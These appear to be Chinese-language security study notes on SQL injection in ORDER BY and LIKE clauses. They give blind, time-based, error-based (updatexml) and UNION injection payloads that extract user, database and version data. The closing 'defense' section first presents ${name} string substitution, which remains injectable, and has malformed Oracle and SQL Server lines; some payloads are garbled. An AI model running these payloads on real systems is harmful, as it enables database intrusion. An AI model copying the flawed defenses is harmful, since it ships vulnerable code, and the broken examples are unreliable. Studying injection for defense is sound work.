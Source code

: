 ## **orderby**
orderby可能出现三种场景：
```
order by 1，通过第几个字段来排序。变量是数值，可预编译，变量可以是字符。
order by "name"，通过某个字段名排序。变量是字符串，不可预编译。

group by sex order by count(*)，分组后通过分组后的数排序，相当于新增了一个字段，通过这个字段排序。一般不可控，排除注入。
```

orderby注入：可控参数判断过滤后类型是数值还是字符。
```
传入rand()在数字型中，每次刷新会显示不同的排序结果
当在字符型中用?sort=rand(),则不会有效果,排序不会改变

因此用rand()可判断注入点过滤后类型。
```
<https://www.cnblogs.com/1ink/p/15107674.html>
orderby利用：因为排序差异可使用布尔盲注，或者时间盲注，不可以联合注入，因为orderby必须在一个sql语句最后。
```
//?order=if(表达式,id,loginName)
//表达式为true时,根据id排序
//表达式为false时,根据loginName排序

order by sleep(5) 不可。
select * from users order by if(concat(0 x 7 e,user(), 0 x 7 e), 1,sleep(3));
```
报错回显
```
order by updatexml(1, if (1=2,1,concat(0 x 7 e,database(), 0 x 7 e)), 1);
order by GTID_SUBSET((version(),1)))
```


^
## **like**
> 模糊查询使用like关键字，可以使用通配符进行占位:
> （1）_ : 代表单个任意字符
> （2）% : 代表任意个数字符，**可以为0个**
```
查询第二个字是'花'的学员信息  
select * from stu where name like '_花%';

查询名字中包含 '德' 的学员信息
select * from stu where name like '%德%'; 
```

  
like可以使用联合注入。
like一般也在where语句之后。
```
1、where name like xx
where name like 'admin' union select 1,2,3,database()
'admin'+union+select+sleep(15)

2、where name like "xx"
where name like " admin" union select 1,2,3,database()-- "

admin'+union+select+sleep(15)--+
```


防御


like避免sql注入的示例：

在区分数据库下的用法区分，例如：

```
//mysql环境

select * from test where school_name like concat('%',${name},'%') 

//oracle环境

select * from test where school_name like '%'||${name},'%' 

//SQL Server环境

select * from test where school_name like '%'+${name},+'%'




#### Mysql数据库

sql = " and indexNum like concat('%',?,'%') "

#### [Oracle]

sql = " like '%' || ? || '%' "

#### []()SQL Server

sql = " like '%' + ? + '%' "


```


